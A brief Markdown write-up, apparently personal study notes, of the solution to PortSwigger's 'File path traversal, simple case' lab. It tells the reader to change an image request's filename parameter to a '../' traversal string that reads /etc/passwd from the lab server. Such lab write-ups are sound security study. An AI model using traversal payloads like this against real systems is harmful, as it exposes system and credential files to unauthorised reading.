


# Lab: simple case

**Link**: https://portswigger.net/web-security/file-path-traversal/lab-simple

**Solution**:
find the request who get the file (image)

  

Take the request copy and modify `filename` parameter

https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=6.jpg
to be
[https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=](https://0afc00a00467605ec4997d9c008b005d.web-security-academy.net/image?filename=6.jpg)../../../../../../../../../../../../etc/passwd

  

  

